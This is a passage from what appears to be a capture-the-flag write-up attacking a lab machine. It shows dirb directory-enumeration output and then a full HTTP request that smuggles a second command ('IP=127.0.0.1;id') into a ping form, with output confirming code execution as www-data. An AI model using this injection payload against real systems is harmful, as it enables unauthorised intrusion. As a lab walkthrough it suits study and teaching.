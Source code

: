 -----------------
DIRB v2.21
By The Dark Raver
-----------------

START_TIME: Wed Apr 29 18:52:56 2015
URL_BASE: http://192.168.80.158:33447/Challenge/Magic_Box/
WORDLIST_FILES: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
OPTION: Fine tunning of NOT_FOUND detection
OPTION: Not Stoping on warning messages
EXTENSIONS_LIST: (.html,.php,.ini,.txt,.inc,.zip,.bak,.rar,.xml) | (.html)(.php)(.ini)(.txt)(.inc)(.zip)(.bak)(.rar)(.xml) [NUM = 9]

-----------------

GENERATED WORDS: 219174
(!) WARNING: Wordlist is too large. This will take a long time to end.
    (Use mode '-w' if you want to scan anyway)

---- Scanning URL: http://192.168.80.158:33447/Challenge/Magic_Box/ ----
+ http://192.168.80.158:33447/Challenge/Magic_Box/low.php (CODE:200|SIZE:0)
+ http://192.168.80.158:33447/Challenge/Magic_Box/command.php (CODE:200|SIZE:54)
+ http://192.168.80.158:33447/Challenge/Magic_Box/tails.php (CODE:200|SIZE:74)
{% endcodeblock %}

Now I understand from the index page the sentence `Fairy tails uses secret keys to open the magical doors.`

Seems that we almost won, because RCE (OS Commanding) on http://192.168.80.158:33447/Challenge/Magic_Box/tails.php. 

{% codeblock %}
POST /Challenge/Magic_Box/command.php HTTP/1.1
Host: 192.168.80.158:33447
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.10; rv:40.0) Gecko/20100101 Firefox/40.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.80.158:33447/Challenge/Magic_Box/command.php
Cookie: sec_session_id=pieetao0om7q8pop7rgt3i45a2
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 29

IP=127.0.0.1;id&submit=submit

...

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.013 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.017 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.016 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1998ms
rtt min/avg/max/mdev = 0.013/0.015/0.017/0.003 ms
uid=33(www-data) gid=33(www-data) groups=33(www-data)
{% endcodeblock %}
